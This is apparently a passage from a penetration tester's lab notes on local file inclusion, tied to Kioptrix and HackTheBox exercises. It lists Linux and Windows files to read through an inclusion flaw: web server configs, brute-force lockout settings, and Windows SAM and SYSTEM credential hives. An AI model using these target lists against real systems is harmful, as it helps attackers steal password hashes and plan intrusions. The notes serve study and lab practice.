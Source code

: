 	/usr/local/etc/apache22/httpd.conf
	/etc/apache2/apache2.conf
	```
	- Take note of root web directory if victim has multiple web servers, RCE could have something to do with the other webserver
	- [[Kioptrix - L5#Port 80]]
- To include before bruteforce, to see if account lockouts or IP tables that blocks you
	```
	/etc/pam.d/system-auth
	/etc/fail2ban/action.d
	```
- To include to view webserver is running as which user
	```
	/proc/self/status

	httpd (running)
	UID: 
	GID: 
	```
	- [HackTheBox Beep - Explanation](https://youtu.be/XJmBpOd__N8?t=1303)



## Files to Include - Windows
- Windows
	```
	c:\WINDOWS\system32\eula.txt
	c:\boot.ini  
	c:\WINDOWS\win.ini  
	c:\WINNT\win.ini  
	c:\WINDOWS\Repair\SAM  
	c:\WINDOWS\php.ini  
	c:\WINNT\php.ini  
	c:\Program Files\Apache Group\Apache\conf\httpd.conf  
	c:\Program Files\Apache Group\Apache2\conf\httpd.conf  
	c:\Program Files\xampp\apache\conf\httpd.conf  
	c:\php\php.ini  
	c:\php5\php.ini  
	c:\php4\php.ini  
	c:\apache\php\php.ini  
	c:\xampp\apache\bin\php.ini  
	c:\home2\bin\stable\apache\php.ini  
	c:\home\bin\stable\apache\php.ini
	
	# SYSTEMROOT is usually windows
	windows\repair\SAM
	%SYSTEMROOT%\repair\SAM
	%SYSTEMROOT%\System32\config\RegBack\SAM
	%SYSTEMROOT%\System32\config\SAM
	%SYSTEMROOT%\repair\system
	%SYSTEMROOT%\System32\config\SYSTEM
	%SYSTEMROOT%\System32\config\RegBack\system
	```
